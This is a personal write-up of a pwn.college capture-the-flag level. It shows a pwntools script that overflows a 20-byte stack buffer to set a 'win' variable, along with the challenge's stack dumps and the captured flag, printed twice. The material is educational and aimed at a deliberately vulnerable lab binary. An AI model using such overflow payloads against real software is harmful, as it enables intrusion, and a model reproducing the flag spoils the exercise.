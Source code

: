 # Level 2.0

Okay so this challenge had annoyed me for so long and then I later realised I had done literally everything correct except for one small basic mistake that costed me so much time and effort.

I opened the challenge and found this

![alt text](./Images/2.0.png)

Now what I had to do was send a random buffer input of 20 characters and then change the win variable into the required value `4074042b`.

`NOTE - The changed value has to be in little endian format, something I ignored when I was solving this challenge and realised later`

Now to automate this process and change the value at the win variable's address I wrote the following script using pwntools:

```py
from pwn import *

p = process('/challenge/babymem-level-2-0')

p.sendline(b"100")

payload = b"A" * 20 + b"\x2b\x04\x74\x40"
p.sendline(payload)

p.interactive()

```

```
suvan@Suvan:~$ ssh -i ./key hacker@dojo.pwn.college
Connected!
hacker@memory-errors~level2-0:~$ python3 chall.py
[+] Starting local process '/challenge/babymem-level-2-0': pid 108
[*] Switching to interactive mode
[*] Process '/challenge/babymem-level-2-0' stopped with exit code -6 (SIGABRT) (pid 108)
###
### Welcome to /challenge/babymem-level-2-0!
###

The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fff94a816a0 (rsp+0x0000) | 40 05 94 ea a9 77 00 00 | 0x000077a9ea940540 |
| 0x00007fff94a816a8 (rsp+0x0008) | 48 28 a8 94 ff 7f 00 00 | 0x00007fff94a82848 |
| 0x00007fff94a816b0 (rsp+0x0010) | 38 28 a8 94 ff 7f 00 00 | 0x00007fff94a82838 |
| 0x00007fff94a816b8 (rsp+0x0018) | 93 de 7d ea 01 00 00 00 | 0x00000001ea7dde93 |
| 0x00007fff94a816c0 (rsp+0x0020) | a0 a6 93 ea a9 77 00 00 | 0x000077a9ea93a6a0 |
| 0x00007fff94a816c8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816d0 (rsp+0x0030) | e0 16 a8 94 ff 7f 00 00 | 0x00007fff94a816e0 |
| 0x00007fff94a816d8 (rsp+0x0038) | f4 16 a8 94 ff 7f 00 00 | 0x00007fff94a816f4 |
| 0x00007fff94a816e0 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816e8 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816f0 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816f8 (rsp+0x0058) | 00 19 6c 5d 8e 92 bd 2b | 0x2bbd928e5d6c1900 |
| 0x00007fff94a81700 (rsp+0x0060) | 40 27 a8 94 ff 7f 00 00 | 0x00007fff94a82740 |
| 0x00007fff94a81708 (rsp+0x0068) | fb 20 23 fe d3 5c 00 00 | 0x00005cd3fe2320fb |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7fff94a816a0, and our base pointer points to 0x7fff94a81700.
This means that we have (decimal) 14 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 112 bytes.
The input buffer begins at 0x7fff94a816e0, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 20 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, if you can set variable to 0x4074042b, the flag will be printed.
You can change this variable by overflowing the input buffer, but keep endianness in mind!
The "win" variable is stored at 0x7fff94a816f4, 20 bytes after the start of your input buffer.

Payload size: You have chosen to send 100 bytes of input!
This will allow you to write from 0x7fff94a816e0 (the start of the input buffer)
right up to (but not including) 0x7fff94a81744 (which is 80 bytes beyond the end of the buffer).
Send your payload (up to 100 bytes)!
You sent 25 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fff94a816a0 (rsp+0x0000) | 40 05 94 ea a9 77 00 00 | 0x000077a9ea940540 |
| 0x00007fff94a816a8 (rsp+0x0008) | 48 28 a8 94 ff 7f 00 00 | 0x00007fff94a82848 |
| 0x00007fff94a816b0 (rsp+0x0010) | 38 28 a8 94 ff 7f 00 00 | 0x00007fff94a82838 |
| 0x00007fff94a816b8 (rsp+0x0018) | 93 de 7d ea 01 00 00 00 | 0x00000001ea7dde93 |
| 0x00007fff94a816c0 (rsp+0x0020) | a0 a6 93 ea 19 00 00 00 | 0x00000019ea93a6a0 |
| 0x00007fff94a816c8 (rsp+0x0028) | 64 00 00 00 00 00 00 00 | 0x0000000000000064 |
| 0x00007fff94a816d0 (rsp+0x0030) | e0 16 a8 94 ff 7f 00 00 | 0x00007fff94a816e0 |
| 0x00007fff94a816d8 (rsp+0x0038) | f4 16 a8 94 ff 7f 00 00 | 0x00007fff94a816f4 |
| 0x00007fff94a816e0 (rsp+0x0040) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007fff94a816e8 (rsp+0x0048) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007fff94a816f0 (rsp+0x0050) | 61 61 61 61 2b 04 74 40 | 0x4074042b61616161 |
| 0x00007fff94a816f8 (rsp+0x0058) | 0a 19 6c 5d 8e 92 bd 2b | 0x2bbd928e5d6c190a |
| 0x00007fff94a81700 (rsp+0x0060) | 40 27 a8 94 ff 7f 00 00 | 0x00007fff94a82740 |
| 0x00007fff94a81708 (rsp+0x0068) | fb 20 23 fe d3 5c 00 00 | 0x00005cd3fe2320fb |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7fff94a816e0
- the saved frame pointer (of main) is at 0x7fff94a81700
- the saved return address (previously to main) is at 0x7fff94a81708
- the saved return address is now pointing to 0x5cd3fe2320fb.
- the canary is stored at 0x7fff94a816f8.
- the canary value is now 0x2bbd928e5d6c190a.
- the address of the win variable is 0x7fff94a816f4.
- the value of the win variable is 0x4074042b.

You win! Here is your flag:
pwn.college{oA3CQ84ty6DW9lO7PJadcU1226H.ddTNzMDLzITO0czW}
```

Now the small mistake I made that caused me so much trouble was not using `p.interactive()` in my script. 


`The interactive() method in pwntools is used to interact with a process or remote connection in a live, terminal-like way. This is particularly helpful in exploitation scenarios where you want to manually interact with a program after sending an exploit payload or gaining shell access.`

## My learning

1. Using interactive() method in the end of your script is a good practise and one must follow it when sending pwntools scripts

## Flag

`pwn.college{oA3CQ84ty6DW9lO7PJadcU1226H.ddTNzMDLzITO0czW}`
